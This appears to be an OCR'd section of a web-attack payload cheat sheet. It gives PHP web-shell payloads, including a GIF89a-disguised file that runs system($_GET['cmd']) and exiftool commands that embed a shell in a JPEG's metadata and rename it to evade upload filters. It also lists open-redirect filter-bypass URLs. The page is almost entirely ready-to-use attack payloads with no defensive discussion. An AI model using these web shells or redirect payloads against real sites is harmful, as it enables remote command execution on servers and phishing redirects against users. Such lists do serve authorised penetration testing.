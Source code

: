 `GIF89a`
```php
GIF89a;
<?
system($_GET['cmd']);
?>
```

`exiftool`

```php
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' evil.jpg

mv evil.jpg evil.php.jpg
```
-------------------------------------------------------------------------------------------------------------
# Open web redirect

### Open web redirect common payloads
```
/%09/example.com
/%2f%2fexample.com
/%2f%2f%2fbing.com%2f%3fwww.omise.co
/%2f%5c%2f%67%6f%6f%67%6c%65%2e%63%6f%6d/
/%5cexample.com
/%68%74%74%70%3a%2f%2f%67%6f%6f%67%6c%65%2e%63%6f%6d
/.example.com
//%09/example.com
//%5cexample.com
///%09/example.com
///%5cexample.com
////%09/example.com
////%5cexample.com
/////example.com
/////example.com/
////\;@example.com
////example.com/
////example.com/%2e%2e
////example.com/%2e%2e%2f
////example.com/%2f%2e%2e
////example.com/%2f..
////example.com//
///\;@example.com
///example.com
///example.com/
//google.com/%2f..
//www.whitelisteddomain.tld@google.com/%2f..
///google.com/%2f..
///www.whitelisteddomain.tld@google.com/%2f..
////google.com/%2f..
////www.whitelisteddomain.tld@google.com/%2f..
https://google.com/%2f..
https://www.whitelisteddomain.tld@google.com/%2f..
/https://google.com/%2f..
/https://www.whitelisteddomain.tld@google.com/%2f..
//www.google.com/%2f%2e%2e
//www.whitelisteddomain.tld@www.google.com/%2f%2e%2e
///www.google.com/%2f%2e%2e
///www.whitelisteddomain.tld@www.google.com/%2f%2e%2e
////www.google.com/%2f%2e%2e
////www.whitelisteddomain.tld@www.google.com/%2f%2e%2e
```